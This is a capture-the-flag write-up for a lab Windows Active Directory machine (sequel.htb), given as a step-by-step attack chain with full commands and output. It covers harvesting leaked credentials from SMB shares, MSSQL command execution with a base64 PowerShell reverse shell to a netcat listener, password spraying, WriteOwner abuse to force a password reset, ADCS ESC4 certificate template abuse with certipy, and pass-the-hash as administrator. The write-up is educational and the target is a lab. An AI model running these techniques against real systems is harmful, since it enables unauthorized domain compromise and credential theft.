




## Preface

This box comes with low-privilege user credentials at the start:

```
As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su
```

## Enumeration

Initial nmap scan:

```
Nmap scan report for 10.10.11.51
Host is up (0.035s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    filtered http
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.51:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.51:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-05-13T22:57:03+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-05-13T10:02:43
|_Not valid after:  2055-05-13T10:02:43
9389/tcp  open     mc-nmf        .NET Message Framing
49687/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49700/tcp open     msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-13T22:56:28
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.09 seconds
```

Notably, there does not appear to be any open web port. As this is Windows/Active Directory type of box, my first inclination is to check SMB users/shares. Firstly, adding the sequel.htb name into our /etc/hosts to resolve properly:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ cat /etc/hosts          
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.11.51 sequel.htb
```

Enumerating users:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --users
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.51     445    DC01             Administrator                 2024-06-08 16:32:20 4       Built-in account for administering the computer/domain 
SMB         10.10.11.51     445    DC01             Guest                         2024-12-25 14:44:53 0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.51     445    DC01             krbtgt                        2024-06-08 16:40:23 0       Key Distribution Center Service Account 
SMB         10.10.11.51     445    DC01             michael                       2024-06-08 16:47:37 4        
SMB         10.10.11.51     445    DC01             ryan                          2024-06-08 16:55:45 1        
SMB         10.10.11.51     445    DC01             oscar                         2024-06-08 16:56:36 2        
SMB         10.10.11.51     445    DC01             sql_svc                       2024-06-09 07:58:42 4        
SMB         10.10.11.51     445    DC01             rose                          2024-12-25 14:44:54 0        
SMB         10.10.11.51     445    DC01             ca_svc                        2025-05-14 00:02:30 4        
SMB         10.10.11.51     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

Enumerating user shares:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ
```

Among the standard shares, there is "Accounting Department" which appears interesting. Using `smbclient` to access:

### Discovering plaintext credentials in SMB

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ smbclient \\\\sequel.htb\\Accounting\ Department -U rose -W sequel.htb 
Password for [SEQUEL.HTB\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 924802 blocks available
smb: \>
```

For reasons unknown, opening the files in LibreOffice resulted in bad conversions that were incomprehensible.



Despite this issue we can still extract the contents using 7zip:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ 7z x accounts.xlsx 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 6780 bytes (7 KiB)

Extracting archive: accounts.xlsx
WARNING:
accounts.xlsx
The archive is open with offset

--
Path = accounts.xlsx
Warning: The archive is open with offset
Type = zip
Physical Size = 6780

ERROR: Headers Error : xl/_rels/workbook.xml.rels
                                 
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1

┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ ls
 accounts.xlsx  '[Content_Types].xml'   docProps   _rels   xl
```

Within sharedStrings.xml, we can find user credentials:

```xml
<t xml:space="preserve">First Name</t>
</si>
<si>
<t xml:space="preserve">Last Name</t>
</si>
<si>
<t xml:space="preserve">Email</t>
</si>
<si>
<t xml:space="preserve">Username</t>
</si>
<si>
<t xml:space="preserve">Password</t>
</si>
<si>
<t xml:space="preserve">Angela</t>
</si>
<si>
<t xml:space="preserve">Martin</t>
</si>
<si>
<t xml:space="preserve">angela@sequel.htb</t>
</si>
<si>
<t xml:space="preserve">angela</t>
</si>
<si>
<t xml:space="preserve">0fwz7Q4mSpurIt99</t>
<...SNIP...>
```

A list of all credentials discovered:

```
sa:MSSQLP@ssw0rd!
kevin:Md9Wlq1E5bZnVDVo
oscar:86LxLBMgEWaKUnBG
angela:0fwz7Q4mSpurIt99
```
## Lateral Movement

### RCE via MSSQL account

The most notable from this list appear to be `oscar` as this is a valid user enumerated earlier on the box, and `sa` as this appears to be a MSSQL account.

We find that Oscar's credentials work, however he does not have access to any new content:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec smb sequel.htb -u 'oscar' -p '86LxLBMgEWaKUnBG' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ
```

Using the local-auth flag, we can authenticate as `sa` as well:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

The `(Pwn3d!)` suggests we can run commands remotely as this user. Using `netexec` to execute commands:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "whoami"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             sequel\sql_svc
```

We can see we are running terminal commands as the service account `sql_svc`, which was a user earlier identified on the host. From this point we can use a reverse shell payload to obtain an interactive shell, my preferred method is the powershell base64 payload generated from revshells.com:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec mssql sequel.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd<...SNIP...>
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
[16:21:53] ERROR    Error when attempting to execute command via xp_cmdshell: timed out     mssqlexec.py:30
[16:21:58] ERROR    [OPSEC] Error when attempting to restore option 'xp_cmdshell': timed    mssqlexec.py:47
                    out
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
```

Meanwhile on our listener process:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.11.51] 54743
whoami
sequel\sql_svc
PS C:\Windows\system32>
```

### Stored credentials in configuration file

Enumerating the SQL server directory, we can see sql-Configuration.ini:

```
PS C:\sql2019\expressadv_enu> ls


    Directory: C:\sql2019\expressadv_enu


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/8/2024   3:07 PM                1033_ENU_LP                                                           
d-----         6/8/2024   3:07 PM                redist                                                                
d-----         6/8/2024   3:07 PM                resources                                                             
d-----         6/8/2024   3:07 PM                x64                                                                   
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF                                                           
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML                                                         
-a----         6/8/2024   3:07 PM             16 PackageId.dat                                                         
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE                                                             
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG                                                      
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI                                                 
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL
```

This file contains data used for initializing the service, and can often contain cleartext credentials such as in this scenario:

```
PS C:\sql2019\expressadv_enu> cat sql-configuration.ini
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\sql2019\expressadv_enu> 

```

We see our previously used credential in `SAPWD`, there appears to be more credentials in the `SQLSVCPASSWORD` field. We can spray this password among the list of users that we had previously enumerated:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)                                                                                                                   
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
```

The password works on `sql_svc` as expected, however it appears re-used for the user `ryan` as well. Since Ryan is a member of the Remote Management Use group, we can access his account directly via `WinRM`:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec winrm 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'              
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

Using evil-winrm to authenticate:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

## Privilege Escalation

### Deploying Bloodhound

With remote access as this user, we can use SharpHound+Bloodhound to enumerate potential AD-based privilege escalation vectors. There are several methods, here I will apply a precompiled SharpHound executable retrieved from https://github.com/jakobfriedl/precompiled-binaries

```
*Evil-WinRM* PS C:\Users\ryan\Downloads> upload SharpHound.exe
                                        
Info: Uploading /home/kali/Documents/escape2/SharpHound.exe to C:\Users\ryan\Downloads\SharpHound.exe
                                        
Data: 1791316 bytes of 1791316 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Downloads> .\SharpHound.exe -c All
<...SNIP...>
 286 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-05-15T11:13:33.5686824-07:00|INFORMATION|SharpHound Enumeration Completed at 11:13 AM on 5/23/2025! Happy Graphing!

```

In Bloodhound, we can view Outbound Object Control to find Ryan has WriteOwner permissions over user account `ca_svc`



Selecting WriteOwner options, under Windows Abuse selections, we can see an option for a Force Change Password attack.



What could we do with user `ca_svc`? Bloodhound also shows us that they are a member of `Cert Publishers`, which appears to have potentially dangerous Generic All privileges



### Abusing WriteOwner permissions to force password reset

First, getting access as ca_svc by changing their password to `Hacked123!` using PowerView

```
*Evil-WinRM* PS C:\Users\ryan\Downloads> upload powerview.ps1
                                        
Info: Uploading /home/kali/Documents/escape2/powerview.ps1 to C:\Users\ryan\Downloads\powerview.ps1
                                        
Data: 1217440 bytes of 1217440 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Downloads> import-module .\powerview.ps1
*Evil-WinRM* PS C:\Users\ryan\Downloads> $UserPassword = ConvertTo-SecureString 'Hacked123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Downloads> $SecPassword = ConvertTo-SecureString 'WqSZAF6CysDQbGb3' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Downloads> $Cred = New-Object System.Management.Automation.PSCredential('SEQUEL.HTB\ryan', $SecPassword)
*Evil-WinRM* PS C:\Users\ryan\Downloads> Set-DomainObjectOwner -Identity ca_svc -OwnerIdentity Ryan
*Evil-WinRM* PS C:\Users\ryan\Downloads> Add-DomainObjectAcl -TargetIdentity ca_svc -PrincipalIdentity Ryan -Rights ResetPassword 
*Evil-WinRM* PS C:\Users\ryan\Downloads> Set-DomainUserPassword -Identity ca_svc -AccountPassword $UserPassword -Credential $Cred
```

Now we can see the password worked!

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb sequel.htb -u 'ca_svc' -p 'Hacked123!'             
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:Hacked123!
```

It's worth noting that this user cannot remote access the host:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec winrm sequel.htb -u 'ca_svc' -p 'Hacked123!'
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ca_svc:Hacked123!
```

Since this is a certificate based account and the only interesting group this user is included in is the `Cert Publishers`, we can enumerate potential attack vectors with certipy:

```
┌──(kali㉿kali)-[~]
└─$ certipy find -username ca_svc@sequel.htb -password 'Hacked123!' -dc-ip 10.10.11.51
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
<...SNIP...>
[*] Saving text output to '20250516142519_Certipy.txt'
[*] Wrote text output to '20250516142519_Certipy.txt'
[*] Saving JSON output to '20250516142519_Certipy.json'
[*] Wrote JSON output to '20250516142519_Certipy.json'
```

Looking at the output, we see dangerous permissions on ESC4, template name "DunderMifflinAuthentication"

```
  33
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-05-16T18:23:28+00:00
    Template Last Modified              : 2025-05-16T18:23:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

### Abusing ESC4 CA Vulnerability

Helpful guidance on this attack was found at this blog: https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/ However I had immense trouble attempting to update the template using `certipy`. Eventually I found success running the same command on an older version (from 5.0.1 to 4.8.2):

```
┌──(kali㉿kali)-[~]
└─$ certipy-ad template -template DunderMifflinAuthentication -u 'ca_svc@sequel.htb' -p '/gif!' -target-ip 10.10.11.51 -dc-ip 10.10.11.51 -target sequel.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

The rest of the attack chain worked without issues on the latest version of certipy:

```
┌──(kali㉿kali)-[~]
└─$ certipy req -ca sequel-DC01-CA -dc-ip 10.10.11.51 -u ca_svc -p 'Hacked123!' -template DunderMifflinAuthentication -target sequel.htb -upn administrator@sequel.htb 
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 39
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Lastly retrieving administrator hash using the admin certificate:

```
┌──(kali㉿kali)-[~]
└─$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Checking with netexec, we confirm successful athuentication as administrator:

```
┌──(kali㉿kali)-[~]
└─$ netexec smb sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\administrator:7a8d4e04986afa8ed4060f75e5a0b3ff (Pwn3d!)
```

Logging in with Evil-WinRM and passing the hash:

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
